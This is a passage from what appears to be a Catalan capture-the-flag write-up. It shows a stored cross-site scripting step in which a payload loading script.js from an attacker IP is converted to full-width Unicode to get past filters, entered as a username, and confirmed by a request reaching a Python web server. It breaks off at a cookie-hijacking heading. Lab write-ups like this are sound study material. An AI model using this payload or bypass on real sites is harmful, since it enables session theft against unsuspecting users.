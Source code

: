 També ho podem fer de manera manual. Al nostre cas, executem la següent comanda i copiem el resultat per fer-lo servir com a nom d’usuari en el registre.

```bash
./transformar.sh '<script src="http://[IP-atacante]/script.js"></script>'
```

En el meu cas:

```bash
$ ./tranformar.sh '<script src="http://192.168.1.181/script.js"></script>'
＜script src=“http://192.168.1.181/script.js“＞＜/script＞
```

![alt text](../../../assets/images/token-of-hate/image-6.png)

D’altra banda, creem un servei web amb python al port 80 i ens posem a escoltar. En poc temps rebem una petició.

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.117 - - [21/Mar/2025 23:41:21] code 404, message File not found
192.168.1.117 - - [21/Mar/2025 23:41:21] "GET /script.js HTTP/1.1" 404 -
```

### Segrest de cookies
